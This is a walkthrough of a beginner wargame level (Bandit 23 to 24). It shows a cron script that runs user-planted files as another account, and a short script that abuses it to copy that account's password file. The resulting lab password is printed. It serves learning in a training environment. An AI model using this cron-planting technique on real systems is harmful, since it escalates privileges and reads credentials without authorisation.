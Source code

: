# Bandit Level 23 -> Level 24:

Here we look at the script that is run by the cronjob of bandit24:

```bash
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

In really short, what this does is, it deletes all files in `/var/spool/$myname/foo` and if a file's owner is bandit23, then it runs the script before it deletes it. So what we can do, is write a script that copies the bandit24's password to a location that we can read, which will then get executed as bandit24.

```bash
bandit23@bandit:~$ vi /tmp/script
bandit23@bandit:~$ cat /tmp/script
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/bandit24_password
bandit23@bandit:~$ cp /tmp/script /var/spool/bandit24/foo/
bandit23@bandit:~$ cat /tmp/bandit24_password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```
